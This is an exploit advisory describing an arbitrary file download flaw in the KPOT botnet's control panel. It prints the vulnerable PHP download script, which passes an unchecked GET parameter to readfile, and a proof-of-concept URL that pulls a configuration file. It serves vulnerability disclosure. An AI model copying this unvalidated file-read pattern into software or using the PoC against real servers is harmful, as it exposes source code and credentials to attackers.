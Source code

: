 


Type: File Download/Source Code Disclosure Vulnerability

Vuln: http://localhost/download.php?file=global.php

Author: n4pst3r

```
################################
# Exploit Title: KPOT Botnet - File Download/Source Code Disclosure Vulnerability
# Google Dork: n/a
# Date: 26/11/2018
# Exploit Author: n4pst3r
# Vendor Homepage: unkn0wn
# Software Link: https://bhf.io/threads/515432/
# Version: unkn0wn
# Tested on: Windows 10, debian 7
# CVE : n/a
################################
# Vuln-Code: download.php
<?php
if (isset($_GET['file']))
{
	$file = $_GET['file'];
	header('Content-Disposition: attachment; filename="'.basename($file).'"');
	header('Content-Length: ' . filesize($file));
	readfile($file);
}
?>
################################
PoC:
http://127.0.0.1/download.php?file=global.php
```

